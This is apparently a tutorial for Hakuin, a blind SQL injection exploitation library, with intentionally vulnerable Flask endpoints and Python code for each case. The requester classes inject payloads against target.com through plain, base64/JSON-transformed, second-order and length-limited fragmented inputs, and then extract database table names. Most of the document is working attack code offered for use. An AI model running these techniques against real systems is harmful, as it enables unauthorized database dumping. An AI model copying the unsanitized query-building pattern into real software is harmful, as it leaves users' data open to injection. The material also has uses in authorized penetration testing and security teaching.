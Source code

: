 In this tutorial, we introduce Hakuin's most common features and show you how to use it to handle a variety of challenges you may encounter while exploiting BSQLI.


#### Basic Concepts
Consider a simple Flask application with the following endpoint:
```python
@app.route('/users')
def users():
    name = request.args['name']
    query = f'SELECT * FROM users WHERE name="{name}"'
    
    with DB.connect() as conn:
        user = conn.execute(text(query)).fetchone()[0]

    if user:
        return 'found', 200
    return 'oops', 404
```

The `name` parameter is not sanitized, so the endpoint is vulnerable to BSQLI.

To exploit the vulnerability, you need to instruct Hakuin on how to inject its queries. This is done by deriving the `Requester` class and overriding the `request` method. Aside from injecting queries, the method must determine whether they resolve to `True` or `False`.
```python
from hakuin import Requester

class SimpleRequester(Requester):
    async def request(self, query, ctx):
        # inject the query
        payload = query.render(ctx)
        url = f'http://target.com/users?name=XXX" OR ({payload}) --'
        async with aiohttp.request('GET', url) as resp:
            # determine the query result
            return resp.status == 200
```

Pay attention to the glue code in `name=XXX" OR ({payload})`. The`XXX"` part escapes the string literal in `WHERE name="{name}"`, the `--` turns the extra `"` into a comment to avoid breaking the SQL syntax, and the `OR ({payload})` ensures the SQL statement resolves to true if the payload is logically true and vice versa. There are many ways to glue the payload to the SQL statement, be creative!

Also, notice that there are many ways to infer the boolean result of the injected query. In the example above, we checked, whether the `resp.status == 200`, but we could just as well check whether the response includes the string `"found"`.

Now that everything is set, we can start dumping the database (DB). This is done via the `Extractor` class. The `Extractor` requires a `Requester` and the name of the DB management system (DBMS) it should generate queries for. Hakuin currently supports SQLite, MySQL, Postgres, MsSQL, and Oracle (experimental), but will soon include more engines.

Extracting table names can look like this.
```python
import asyncio
import aiohttp
from hakuin import Extractor, Requester

class SimpleRequester(Requester):
    ...

async def main():
    requester = SimpleRequester():
    ext = Extractor(requester=requester, dbms='sqlite')
    data = await ext.extract_table_names()
    print(data)

asyncio.run(main())
```

Although simple, this approach can be used to exploit most BSQLI vulnerabilities. Keep reading.


#### Transforming Payloads
Let's spice things up. Look at the endpoint bellow.
```python
@app.route('/users')
def users():
    data = request.args['data']
    data = base64.b64decode(data).decode()
    name = json.loads(data)['name']
    query = f'SELECT * FROM users WHERE name="{name}"'
    ...
```

Again, the endpoint is vulnerable, but this time the user input goes through a series of transformations before it is inserted into the SQL statement.

The challenge here is to correctly prepare the input to hit the vulnerability. An example exploit is shown below.
```python
class RequesterWithTransformations(Requester):
    async def request(self, query, ctx):
        payload = query.render(ctx)
        data = json.dumps({'name': f'XXX" OR ({payload}) --'})
        data = base64.b64encode(data.encode())
        url = f'http://target.com/users?data={data}'
        async with aiohttp.request('GET', url) as resp:
            return resp.status == 200
```



#### Higher Order Injection Vulnerabilities
Sometimes, the vulnerable endpoint is not the same as the one used to upload payloads. See these endpoints:
```python
SESSION = {
    'name': None,
}

@app.route('/register', methods=['POST'])
def register():
    SESSION['name'] = request.args['name']

@app.route('/profile')
def register():
    name = SESSION['name']
    query = f'SELECT * FROM users WHERE name="{name}"'
    
    with DB.connect() as conn:
        user = conn.execute(text(query)).fetchone()[0]

    if user:
        return 'found', 200
    return 'oops', 404
```

Here, the user-provided `name` is stored on the server via the `/register` endpoint and only then it is inserted into the SQL statement via `/profile`.

This second-order vulnerability can be exploited with the following code:
```python
class SecondOrderRequester(Requester):
    async def request(self, query, ctx):
        # upload the payload
        payload = query.render(ctx)
        url = f'http://target.com/register?name=XXX" OR ({payload}) --'
        async with aiohttp.request('post', url):
            pass

        # hit the vulnerable endpoint and infer the result
        url = 'http://target.com/profile'
        async with aiohttp.request('get', url) as resp:
            return resp.status == 200
```


#### Fragmented Injection
In some cases, the vulnerable application may impose input limitations, such as length checks:
```python
@app.route('/users')
def users():
    first_name = request.args['first_name']
    last_name = request.args['last_name']
    assert len(first_name) < 50 and len(last_name) < 50, 'Name too long.'
    query = f'SELECT * FROM users WHERE first_name="{first_name}" AND last_name="{last_name}"'
    ...
```

The main challenge here is dumping the DB with inputs shorter than 50 characters. One approach is to shorten the injected queries and adjust the extraction logic, but there is a simpler way. We can take advantage of the fact that both `first_name` and `last_name` are inserted into the same SQL statement. The trick is to split the payload into two smaller parts, called _fragments_, inject them through the two inputs, and modify the glue code to avoid breaking the syntax. Here’s how we can exploit it:
```python
class FragmentedRequester(Requester):
    async def request(self, query, ctx):
        payload = query.render(ctx)
        frag_1, frag_2 = payload.split('FROM')
        frag_2 = f'FROM {frag_2}'

        url = f'http://target.com/users?first_name=XXX" OR ({frag_1} /*&last_name=*/ {frag_2}) --'
        ...
```

Notice that we split the query at the `FROM` keyword. This prevents the query keywords from being split into multiple fragments, which would break the syntax (e.g., `SELECT column FR` and `OM table`). Additionally, `FROM` is typically near the middle of queries, making it a reasonable splitting point to bypassing length checks.

The glue code has become more complex. As before, the `XXX"` part escapes the string literal, `OR ({frag_1} ... {frag_2})` propagates the boolean query result through the vulnerable statement, and `--` comments out the extra `"`. However, in this case, the glue code must also handle the additional statement code between the two vulnerable inputs, specifically `" AND last_name="`. The easiest way to handle this is by commenting it out using `/* ... */`. Here’s a practical example:
```SQL
-- payload: SELECT column < 42 FROM table LIMIT 1 OFFSET 1
-- frag_1: SELECT column < 42
-- frag_2: FROM table LIMIT 1 OFFSET 1
-- first_name: XXX" OR (SELECT column < 42 /*
-- last_name: */ FROM table LIMIT 1 OFFSET 1) --

-- statement before injection:
SELECT * FROM users WHERE first_name="{first_name}" AND last_name="{last_name}"

-- statement after injection:
SELECT * FROM users WHERE first_name="XXX" OR (SELECT column < 42 /*" AND last_name="*/ FROM table LIMIT 1 OFFSET 1) --"
```



#### More Tutorials Coming Soon
So far, we only explained how to customize the injection and inference logic, but Hakuin allows you to customize everything, even the query generation and extraction logic. We will cover these topics soon.

Additionally, we are writing a high-level overview of the optimization methods used by Hakuin under the hood. The document will be published once ready. Stay tuned.